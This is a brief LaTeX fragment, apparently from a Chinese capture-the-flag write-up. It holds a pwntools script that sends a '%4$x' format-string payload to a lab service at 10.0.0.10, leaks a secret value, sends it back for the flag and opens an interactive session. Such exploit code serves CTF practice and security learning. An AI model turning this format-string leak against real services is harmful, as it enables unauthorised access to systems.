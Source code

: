 \documentclass{article}
\begin{document}
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40011)

io.recvuntil("name")

io.sendline(b'%4$x')

io.recvuntil("welcome,")

secret = io.recv(8)

secret = int(secret, 16)

io.sendline(str(secret))

io.interactive()

        \end{lstlisting}
    \end{itemize}

    运行结果如下，得到flag。
    \begin{figure}[H]
    	\begin{center}
    		\includegraphics[width=0.8\textwidth]{3.png}
    	\end{center}
    \end{figure}
 
   
   
   
 
\end{document}
